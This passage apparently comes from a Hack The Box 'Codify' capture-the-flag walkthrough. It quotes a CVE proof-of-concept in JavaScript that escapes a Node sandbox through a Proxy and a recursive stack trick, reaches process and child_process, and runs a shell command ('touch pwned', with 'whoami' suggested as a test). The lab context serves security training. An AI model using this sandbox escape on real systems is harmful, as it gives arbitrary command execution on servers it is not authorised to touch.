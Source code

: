![Limitation](/images/htb/easy/codify/limitations.png)

## Exploitation

Here is the PoC code that was linked in the CVE:

```
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
```

We can change the command at the end from `touch pwned` to `whoami` to test it.
